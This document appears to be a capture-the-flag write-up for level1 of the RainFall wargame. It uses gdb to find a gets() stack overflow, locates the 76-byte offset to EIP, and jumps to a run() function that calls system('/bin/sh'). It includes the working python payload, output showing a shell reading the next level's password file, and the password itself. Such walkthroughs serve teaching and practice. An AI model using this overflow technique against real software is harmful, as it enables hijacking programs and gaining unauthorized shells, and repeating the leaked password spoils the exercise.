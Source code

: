 # Level 1


We have a new binary, lets read what's inside :


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
(gdb) 
```

We see there is some generic system function, but there is a main, and a run function.

```
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
(gdb) 
```

The main consist of just doing a get() and nothing else so that's all the binary is doing.


```
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
(gdb) 
```

Tho the run() function seems to be our door for the flag.

The gets() function is vulnerable to Buffer overflow attacks, and since it is used by main, we are going to attack it.

Since the run might be our door for the flag, we are going to overwrite the EIP (Extented Instruction Pointer) of the main, so it points to the adress of the run function.

The program wil segfault when the EIP points to an adress it doesn't own, this will be our hint to know where the EIP is so we can overwrite it.


By giving an input of a lot of A

```
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

(gdb) info register
eax            0xbffff6f0	-1073744144
ecx            0xb7fd28c4	-1208145724
edx            0xbffff6f0	-1073744144
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff740	0xbffff740
ebp            0x41414141	0x41414141
esi            0x0	0
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
(gdb) 



```

We see our EIP got overwriten with 0x41 which the ascii of A.


```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) 

```

And by subsctrating the return adress with the user input we know the offset is 76.

So we know that the buffer is 76, and we need to write 76 A to reach the EIP and from here inject what we want.


The adress of the run function is the following, 
0x08048444, and we must give it in backward since the current processor use little-endian coding . (google).

```
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1 
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 

```

By giving this as input the binary show us a really good message, it worked ! Lets show in-depth what the run function does.


```gdb
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
(gdb) x/s 0x8048570
0x8048570:	 "Good... Wait what?\n"
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
(gdb) 
```

It print "Good... Wait what?" and then execute the system syscall with "/bin/sh"

So it should be executing a shell so that we can go to the next level, but it crashed, we need to keep an input on the binary.

```
level1@RainFall:~$ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```